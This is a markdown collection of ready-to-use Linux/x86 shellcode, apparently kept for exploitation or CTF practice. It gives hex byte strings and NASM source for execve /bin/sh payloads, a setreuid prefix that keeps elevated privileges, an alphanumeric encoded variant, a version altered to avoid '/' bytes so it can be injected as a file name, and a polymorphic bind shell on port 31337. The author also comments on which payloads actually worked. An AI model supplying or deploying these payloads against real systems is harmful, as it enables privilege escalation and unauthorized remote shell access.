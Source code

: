 # Useful shellcodes


## [_Hamza Megahed_'s Linux/x86 execve `/bin/sh` shellcode<sub>(23 bytes)</sub>](http://shell-storm.org/shellcode/files/shellcode-827.php)
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```
Whenever I use this shellcode, **it's executed but the OS keeps executing the next instructions; without giving me the shell**.
So I recommend you use [hkpco's shellcode](http://hkpco.kr/paper/universal%20setreuid%20shellcode.txt) instead.


## [_hkpco_'s shellcode](http://hkpco.kr/paper/universal%20setreuid%20shellcode.txt) :star2:
```c
"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80"
// setreuid(geteuid(), geteuid());
```
-----
```c
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
// 25 bytes of shellcode
```
```nasm
; nasm
BITS 32
	xor eax, eax
	push eax
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	push eax
	push ebx
	mov ecx, esp
	xor edx, edx
	mov al, 0xb
	int 0x80
```


## [Linux/x86 - execve `/bin/sh` alphanumeric shellcode<sub>(195 bytes)</sub>](https://www.exploit-db.com/exploits/13424/)
```
GGGGGGGGGGGGGGGGGLLLLXPY3E01E01u03u0fXh8eshXf5VJPfhbifhDefXf5AJfPDTYhKATYX5KATYPQTUX3H01H01X03X0YRX3E01E03U0Jfh2GfXf3E0f1E0f1U0fh88fX0E1f1E0f3E0fPTRX49HHHQfPfYRX2E00E0BRX0E02E02L0z0L0zYRX4j4aGGGG
```
Does not work. Maybe it needs some condition to be used?


## Modified _hkpco's shellcode_ without `0x2f`(`'/'`)<sub>(39 bytes)</sub> :star2:
I modified _hkpco's shellcode_ to avoid `0x2f`, in order to use it as a file name.
```
\x31\xc0\x50\x68\x61\x61\x73\x68\x68\x61\x62\x69\x6e\x80\x34\x24\x4e\x80\x74\x24\x04\x4e\x80\x74\x24\x05\x4e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```
```nasm
; nasm
BITS 32
	xor eax, eax
	push eax
	push 0x68736161
	push 0x6e696261
	xor BYTE [esp], 0x4E
	xor BYTE [esp+4], 0x4E
	xor BYTE [esp+5], 0x4E
	mov ebx, esp
	push eax
	push ebx
	mov ecx, esp
	xor edx, edx
	mov al, 0xb
	int 0x80
```


## [*gunslinger_*'s polymorphic shellcode for x86 Linux that binds to the port 31337 with `setreuid(0, 0)`<sub>(131 bytes)</sub>](http://shell-storm.org/shellcode/files/shellcode-655.php) :star2:
```c
"\xeb\x11\x5e\x31\xc9\xb1\x6b\x80\x6c\x0e\xff\x35\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\xe5\x7b\xbd\x0e\x02\xb5\x66\xf5\x66\x10\x66\x07\x85\x9f\x36\x9f\x37\xbe\x16\x33\xf8\xe5\x9b\x02\xb5\xbe\xfb\x87\x9d\xf0\x37\xaf\x9e\xbe\x16\x9f\x45\x86\x8b\xbe\x16\x33\xf8\xe5\x9b\x02\xb5\x87\x8b\xbe\x16\xe8\x39\xe5\x9b\x02\xb5\x87\x87\x8b\xbe\x16\x33\xf8\xe5\x9b\x02\xb5\xbe\xf8\x66\xfe\xe5\x74\x02\xb5\x76\xe5\x74\x02\xb5\x76\xe5\x74\x02\xb5\x87\x9d\x64\x64\xa8\x9d\x9d\x64\x97\x9e\xa3\xbe\x18\x87\x88\xbe\x16\xe5\x40\x02\xb5"
```